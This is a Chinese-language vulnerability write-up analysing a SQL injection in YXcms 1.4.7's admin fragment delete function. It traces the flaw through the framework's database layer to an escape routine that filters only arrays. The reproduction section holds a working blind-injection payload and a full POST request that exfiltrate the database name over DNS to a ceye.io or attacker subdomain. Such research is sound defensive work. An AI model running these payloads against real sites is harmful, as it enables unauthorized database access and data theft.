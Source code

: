 ```yaml
---
title: YXCMS 1.4.7SQL注入
id: zhfly3300
---
```


# YXcms 1.4.7 sql注入

## 一、漏洞简介

## 二、漏洞影响

YXcms 1.4.7

## 三、复现过程

### 漏洞分析

查看漏洞文件protected/apps/admin/controller/fragmentController.php的第63行

```
public function del()
{
    if(!$this->isPost()){
        $id=intval($_GET['id']);
        if(empty($id)) $this->error('您没有选择~');
        if(model('fragment')->delete("id='$id'"))
        echo 1;
        else echo '删除失败~';
    }else{
        if(empty($_POST['delid'])) $this->error('您没有选择~');
        $delid=implode(',',$_POST['delid']);
        if(model('fragment')->delete('id in ('.$delid.')'))
        $this->success('删除成功',url('fragment/index'));
    }
} 
```

我们跟if(model('fragment')->delete("id='$id'")),它会先到protected/core.php文件里面的model

```
function model($model){
    static $objArray = array();
    $className = $model . 'Model';
    if( !is_object($objArray[$className]) ){
        if( !class_exists($className) ) {
            throw new Exception(config('_APP_NAME'). '/' . $className . '.php 模型类不存在');
        }
        $objArray[$className] = new $className();
    }
    return $objArray[$className];
} 
```

然后到protected/apps/admin/model/fragmentModel.php

```
<?php
class fragmentModel extends baseModel{
    protected $table = 'fragment';
} 
```

继续protected/base/model/baseModel.php

```
<?php
class baseModel extends model{
     protected $prefix='';
     public function __construct( $database= 'DB',$force = false ){
        parent::__construct();
        $this->prefix=config('DB_PREFIX');
    }
} 
```

再来到最底层的数据库操作类protected/base/model/model.php的第45行

```
public function delete($condition){
return $this->model->table($this->table, $this->ignoreTablePrefix)->where($condition)->delete();
    } 
```

这个delete()是从哪里来的，我们来看第十三行的代码,创建了一个对象cpModel

```
static public function connect($config, $force=false){
        static $model = NULL;
        if( $force==true || empty($model) ){
            $model = new cpModel($config);
        }
        return $model;
    } 
```

漏洞文件在protected/include/core/cpModel.class.php,

```
public function delete() {
        $table = $this->options['table'];   //当前表
        $where = $this->_parseCondition();  //条件
        if ( empty($where) ) return false; //删除条件为空时，则返回false，避免数据不小心被全部删除

```
 $this-&gt;sql = "DELETE FROM $table $where";
    $query = $this-&gt;db-&gt;execute($this-&gt;sql);
    return $this-&gt;db-&gt;affectedRows();
} 
``` 
```

这里用到了一个方法_parseCondition()

```
private function _parseCondition() {
        $condition = $this->db->parseCondition($this->options);
        $this->options['where'] = '';
        $this->options['group'] = '';
        $this->options['having'] = '';
        $this->options['order'] = '';
        $this->options['limit'] = '';
        $this->options['field'] = '*';      
        return $condition;      
    }
} 
```

这个函数是在protected/include/core/db/cpMysql.class.php的128行

```
public function parseCondition($options) {
        $condition = "";
        if(!empty($options['where'])) {
            $condition = " WHERE ";
            if(is_string($options['where'])) {
                $condition .= $options['where'];
            } else if(is_array($options['where'])) {
                    foreach($options['where'] as $key => $value) {
                         $condition .= " `$key` = " . $this->escape($value) . " AND ";
                    }
                    $condition = substr($condition, 0,-4);  
            } else {
                $condition = "";
            }
        }

```
 if( !empty($options['group']) &amp;&amp; is_string($options['group']) ) {
        $condition .= " GROUP BY " . $options['group'];
    }
    if( !empty($options['having']) &amp;&amp; is_string($options['having']) ) {
        $condition .= " HAVING " .  $options['having'];
    }
    if( !empty($options['order']) &amp;&amp; is_string($options['order']) ) {
        $condition .= " ORDER BY " .  $options['order'];
    }
    if( !empty($options['limit']) &amp;&amp; (is_string($options['limit']) || is_numeric($options['limit'])) ) {
        $condition .= " LIMIT " .  $options['limit'];
    }
    if( empty($condition) ) return "";
    return $condition;
} 
``` 
```

里面有一个行数来过滤escape,我们找到74行的这个函数定义

```
public function escape($value) {
        if( isset($this->_readLink) ) {
            $link = $this->_readLink;
        } elseif( isset($this->_writeLink) ) {
            $link = $this->_writeLink;
        } else {
            $link = $this->_getReadLink();
        }

```
 if( is_array($value) ) { 
       return array_map(array($this, 'escape'), $value);
    } else {
       if( get_magic_quotes_gpc() ) {
           $value = stripslashes($value);
       } 
        return  "'" . mysql_real_escape_string($value, $link) . "'";
    }
} 
``` 
```

不过这个函数有一句is_array如果是数组才会执行下面的过滤，如果不是的话就正常执行下去,没有任何sql的过滤就造成了注入漏洞。

### 复现

这个盲注可以用http://ceye.io和python脚本跑

```
http://0-sec.org/index.php?r=admin/fragment/index 
```

payload:

```
1 and if((select load_file(concat('\\\\',(select database()),'.xxxx.ceye.io\\abc'))),1,1))-- 
```

*   `点击删除` 

post包

```
POST /index.php?r=admin/fragment/del HTTP/1.1

Host: [0-sec.org](http://0-sec.org)

User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 188

Referer: [http://127.0.0.1/index.php?r=admin/fragment/index](http://127.0.0.1/index.php?r=admin/fragment/index)

Cookie: PHPSESSID=bbei6n32cuevaf1lbi0n79rdj2;

Connection: close

Upgrade-Insecure-Requests: 1 `delid%5B%5D=select LOAD_FILE((CONCAT(’\\’,(SELECT DATABASE()),’.8571e594.2m1.pw\abc’)))&**hash**=529fbedab8a7b8a3f3f5a0f394f51cf2_08ebfXTKPoKd0tX4iq+aFMwhq5QkkRGC/NfUu/Ny83+UmU8u0MoCIj8` 
```

![image](../img/24c7a63a1e81924a20a78b423055d572.png)

然后用burp截获数据，修改内容加上我们的payload，用原文的payload后面+会报错

![image](../img/16eb70448907b800a36fee76a8e79a66.png)

然后进入http://ceye.io/records/dns 查看我们的数据

![image](../img/530cca24c637aeefc9e616ab84b290d2.png)